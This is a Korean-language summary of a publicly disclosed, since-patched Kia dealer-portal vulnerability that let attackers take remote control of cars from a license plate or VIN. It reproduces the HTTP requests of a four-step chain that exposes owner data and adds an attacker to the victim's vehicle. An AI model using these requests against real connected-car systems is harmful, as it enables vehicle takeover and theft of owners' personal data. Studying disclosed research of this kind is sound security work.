

## URL

https://samcurry.net/hacking-kia

## Target

- 기아 딜러 웹사이트(kiaconnect.kdealer.com) API

## Explain

2024년 6월 11일, 기아 차량에서 차량 번호판만으로 주요 기능을 원격으로 제어할 수 있는 취약점이 발견되었습니다. 

취약점은 차량에 장착된 하드웨어를 통해 약 30초 내에 공격이 가능하며, 기아 커넥트 구독이 활성화되지 않은 차량에서도 동일하게 적용되었습니다.

공격자는 이름, 전화번호, 이메일, 집 주소와 같은 개인 정보를 획득하여, 피해자 몰래 차량의 두 번째 사용자로 등록시킬 수 있었습니다.

해당 취약점은 기아의 내부 패치를 거쳐 2024년 9월 26일에 공개되었습니다.

초기 타겟은 인터넷을 통해 차량 명령을 실행할 수 있는 owners.kia.com 웹사이트와 Kia Connect iOS 앱으로 설정했습니다. 

웹사이트는 reverse proxy를 통해 사용자 명령을 기아 Backend 서비스로 전달하고, 모바일 앱은 API에 직접 접근하는 구조입니다.

웹사이트에서 API 요청이 프록시 서버를 거쳐 Backend로 전달되는 방식을 살펴보겠습니다.

```
POST /apps/services/owners/apigwServlet.html HTTP/2
Host: owners.kia.com
Httpmethod: GET
Apiurl: /door/unlock
Servicetype: postLoginCustomer
Cookie: JSESSIONID=SESSION_TOKEN;

```

사용자가 owners.kia.com 웹사이트에서 차량 잠금 해제를 시도하면, 웹사이트에서 위와 같은 HTTP 요청이 전송됩니다.
이 요청에는 사용자의 세션 정보를 담고 있으며, 쿠키에 `JSESSIONID` 가 포함됩니다.

```
GET /apigw/v1/rems/door/unlock HTTP/1.1
Host: api.owners.kia.com
Sid: 454817d4-b228-4103-a26f-884e362e8dee
Vinkey: 3ecc1a19-aefd-4188-a7fe-1723e1663d6e

```

이후, 프록시 서버는 백엔드 서버로 `Sid` 토큰과 `Vinkey` 값을 담고 있는 HTTP 요청을 보냅니다.

`Sid`은 앞서 전달받은 `JSESSIONID`를 통해 사용자 세션을 인증 후 생성한 토큰 값이며,

`Vinkey`값은 차량의 VIN(Vehicle Identification Number, 차량 식별 번호)와 연결된 고유한 UUID입니다.

2023년에 발견된 취약점과 동일한 방식으로 작동하기 때문에, 이를 바탕으로 새로운 차량을 구매했을 때 고객 정보가 어떻게 처리되는지를 파악하고자 기아 딜러 시스템을 타겟으로 설정했습니다.

```
https://kiaconnect.kdealer.com/content/kDealer/en/kiauser.html?token=dealer_generated_access_token&vin=example_vin&scenarioType=3
```

새로 구매한 차량을 등록할 때, 기아 딜러는 고객에게 이메일로 등록 링크를 보냅니다. 

위 예시 링크를 확인하면, `token` 파라미터는 딜러가 생성한 일회성 액세스 토큰이며, `vin` 파라미터는 차량 고유번호(VIN)를 나타냅니다. `vin` 파라미터로 지정된 차량을 수정할 수 있습니다.

```
POST /apps/services/kdealer/apigwServlet.html HTTP/1.1
Host: kiaconnect.kdealer.com

{
  "token": "985a49f0-1fe5-4d36-860e-d9b93272072b",
  "vin": "5XYP3DHC9NG310533",
  "scenarioType": 3,
  "loginPref": null
}

```

위 요청을 통해 `token`과 `vin`의 유효성을 확인하며, 기아 딜러의 인프라가 고객 정보와 연결되어 있음을 확인합니다.

```
dealerVehicleLookUp() {
    this.displayLoader = !0, this.vinToEnroll = "eDelivery" != this.entryPoint ? this.vinToEnroll.replace(/\s/g, "") : this.userDetails.vin, "17" == this.vinToEnroll.length && this.landingPageService.postOffice({
        vin: this.vinToEnroll
    }, "/dec/dlr/dvl", "POST", "postLoginCustomer").subscribe(i => {
        i && (i.hasOwnProperty("body") && "0" == i.body.status.statusCode ? this.processDvlData(i.body) : "1003" == i.body.status.errorCode && "kia-dealer" == this.entryPoint ? this.reRouteSessionExpire() : (this.displayLoader = !1, this.alertMessage = i.body.status.errorMessage, document.getElementById("triggerGeneralAlertModal").click()))
    })
}

```

딜러 웹사이트의 자바스크립트 코드를 분석한 결과, 직원 전용 API 호출을 발견했습니다.

이 API는 차량 조회, 계정 조회, 차량 등록 및 해지 등 직원만 사용할 수 있는 기능을 수행하는 것으로 파악되어 딜러 전용 API 엔드포인트를 타겟으로 공격을 시도했습니다.


```

POST /apps/services/kdealer/apigwServlet.html HTTP/1.1
Host: kiaconnect.kdealer.com
Httpmethod: POST
Apiurl: /prof/registerUser

{
  "userCredential": {
    "firstName": "Sam",
    "lastName": "Curry",
    "userId": "normal.user@gmail.com",
    "password": "FakePass123!",
    "acceptedTerms": 1
  }
}

```

위 요청을 통해 딜러 사이트에 사용자 계정을 정상적으로 등록한 후, 로그인하여 세션 쿠키를 획득할 수 있었습니다.


```
HTTP/1.1 200 OK
Sid: 123e4567-e89b-12d3-a456-426614174000

```
세션 쿠키를 통해 기아 딜러 API에 접근할 수 있었고, 차량 소유자의 이름, 이메일, 전화번호 등의 개인 정보를 조회할 수 있었습니다.



이후 차량을 원격으로 제어하기 위해 위와 같이 공격 절차를 구성했습니다.

4번의 HTTP 요청을 통해 피해자 차량의 권한을 수정하고, 공격자를 주요 사용자로 등록하는 공격이 이루어졌습니다.


### 1.딜러 토큰 생성 및 세션 획득

```
POST /apps/services/kdealer/apigwServlet.html HTTP/1.1
Host: kiaconnect.kdealer.com
Httpmethod: POST
Apiurl: /prof/authUser

{
  "userCredential": {
    "userId": "normal.kia.user@gmail.com",
    "password": "Fakepass123!"
  }
}

```
### 2. 피해자의 이메일 및 전화번호 조회

```
POST /apps/services/kdealer/apigwServlet.html HTTP/1.1
Host: kiaconnect.kdealer.com
Appid: 123e4567-e89b-12d3-a456-426614174000
Apiurl: /dec/dlr/dvl

{
    "vin": "1HGBH41JXMN109186"
}

```

### 3. 피해자의 접근 권한 수정

```
POST /apps/services/kdealer/apigwServlet.html HTTP/1.1
Host: kiaconnect.kdealer.com
Httpmethod: POST
Apiurl: /dec/dlr/rvp
Appid: 123e4567-e89b-12d3-a456-426614174000

{
  "vin": "VIN",
  "loginId": "victim_email_leaked@gmail.com",
  "dealerCode": "eDelivery"
}

```


### 4. 공격자를 피해자 차량에 추가


```
POST /apps/services/kdealer/apigwServlet.html HTTP/1.1
Host: kiaconnect.kdealer.com
Httpmethod: POST
Apiurl: /ownr/dicve
Appid: 123e4567-e89b-12d3-a456-426614174000

{
  "vin": "5XYRK4LFXMG016215",
  "loginId": "attacker@gmail.com"
}

```
이 과정을 통해 공격자는 차량의 주요 기능을 원격으로 제어할 수 있게 되었으며, 피해자는 이를 전혀 인지하지 못합니다.

# Demo

<iframe width="560" height="315" src="https://www.youtube.com/embed/jMHFCpQdZyg" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

2022년형 기아 EV6 차량을 대상으로 원격 명령을 실행하는 영상입니다. 

공격자가 기아 차량의 번호판을 입력하고, 소유주 개인정보를 가져온 뒤 차량의 원격 명령을 실행할 수 있습니다.


## Reference

- https://www.boannews.com/media/view.asp?idx=133232